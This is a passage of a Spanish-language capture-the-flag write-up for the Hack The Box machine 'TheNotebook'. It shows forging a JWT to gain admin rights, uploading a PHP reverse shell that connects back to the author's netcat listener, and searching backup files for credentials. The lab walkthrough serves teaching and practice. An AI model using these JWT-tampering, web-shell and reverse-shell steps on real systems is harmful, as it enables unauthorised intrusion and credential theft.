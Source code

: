 
Una vez hecho esto, copiamos el JWT resultante de la izquierda, nos dirigimos a la web de la máquina, reemplazamos el JWT que haya por el nuestro y recargamos la página:

![grabacion2](https://user-images.githubusercontent.com/67548295/128596810-9c0bd57a-270a-4786-9127-20458ce090ce.gif)

Vemos que ha funcionado, y al cambiar la etiqueta de admin_cap de 0 a 1 ahora tenemos permisos de administrador.

Entro en el panel de administrador que ha aparecido y vemos que tenemos una opción para subir archivos:

![image](https://user-images.githubusercontent.com/67548295/128596980-f325ecae-2446-4c24-b104-d084893c8c35.png)

Intento subir una reverse shell en php de este [repositorio](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="\_blank"}{:rel="noopener nofollow"} cambiando la IP por la mia.

Y obtenemos shell:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.230 45098
Linux thenotebook 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:27:55 up 1 day,  5:13,  0 users,  load average: 0.04, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## User pivoting

Empiezo a enumerar el sistema en busca de credenciales para migrar a otro usuario.

Encuentro un backup comprimido del directorio home en /var/backups:

```bash
www-data@thenotebook:/$ ls -lah /var/backups
total 872K
drwxr-xr-x  2 root root   4.0K Aug  7 06:25 .
drwxr-xr-x 14 root root   4.0K Feb 12 06:52 ..
-rw-r--r--  1 root root    50K Aug  6 06:25 alternatives.tar.0
-rw-r--r--  1 root root    33K Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root   3.6K Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root   3.6K Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root   3.6K Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root    437 Feb 12 06:17 dpkg.diversions.0
-rw-r--r--  1 root root    202 Feb 12 06:17 dpkg.diversions.1.gz
-rw-r--r--  1 root root    172 Feb 12 06:52 dpkg.statoverride.0
-rw-r--r--  1 root root    151 Feb 12 06:52 dpkg.statoverride.1.gz
-rw-r--r--  1 root root   562K Jul 23 14:25 dpkg.status.0
-rw-r--r--  1 root root   160K Jul 23 14:25 dpkg.status.1.gz
-rw-------  1 root root    693 Feb 17 13:18 group.bak
-rw-------  1 root shadow  575 Feb 17 13:18 gshadow.bak
-rw-r--r--  1 root root   4.3K Feb 17 09:02 home.tar.gz
-rw-------  1 root root   1.6K Feb 12 06:24 passwd.bak
-rw-------  1 root shadow 1.0K Feb 12 07:33 shadow.bak
```
